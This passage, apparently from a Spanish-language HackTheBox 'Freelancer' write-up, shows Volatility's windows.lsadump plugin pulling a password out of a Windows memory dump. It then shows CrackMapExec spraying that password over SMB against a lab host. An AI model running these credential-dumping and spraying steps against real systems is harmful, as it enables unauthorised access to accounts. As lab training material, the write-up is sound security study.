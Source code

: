 ```bash
pip install -r requirements.txt
```

Es momento de utilizar la herramienta con el siguiente comando:

```bash
python vol.py -f ~/Hackthebox/windows/hard/Freelancer/volcado/MEMORY.DMP windows.lsadump | awk '{print $1, $2}'
```

<figure>
    <img src="/assets/img/Freelancer/imagen60.png" alt="Uso de la herramienta Volatility">
</figure>

Hemos encontrado lo que parece ser una contraseña: `PWN3D#l0rr@Armessa199`. Ahora, utilizamos **CrackMapExec** para determinar a quién pertenecen dichas credenciales:

```bash
crackmapexec smb 10.10.11.5 -u users -p 'PWN3D#l0rr@Armessa199'
```

Y efectivamente, tenemos credenciales totalmente válidas:

<figure>
    <img src="/assets/img/Freelancer/imagen61.png" alt="Credenciales válidas">
</figure>
